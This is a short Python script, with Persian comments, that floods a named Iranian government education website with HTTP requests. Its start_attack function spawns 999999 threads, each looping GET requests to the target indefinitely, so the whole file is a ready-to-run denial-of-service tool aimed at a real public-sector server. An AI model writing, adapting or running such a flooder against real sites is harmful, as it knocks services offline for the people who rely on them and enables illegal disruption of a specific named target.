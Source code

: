 import threading
import requests

def send_request(url):
    try:
        while True:
            response = requests.get(url)
            print(f"Request sent to {url}, Status Code: {response.status_code}")
    except Exception as e:
        print(f"Error: {e}")

def start_attack(url, num_threads):
    for _ in range(num_threads):
        thread = threading.Thread(target=send_request, args=(url,))
        thread.start()

if __name__ == "__main__":
    target_url = "https://kalat-razavi.medu.gov.ir"  # آدرس سرور هدف
    num_threads = 999999  # تعداد نخ‌ها برای ارسال درخواست‌ها
    start_attack(target_url, num_threads)

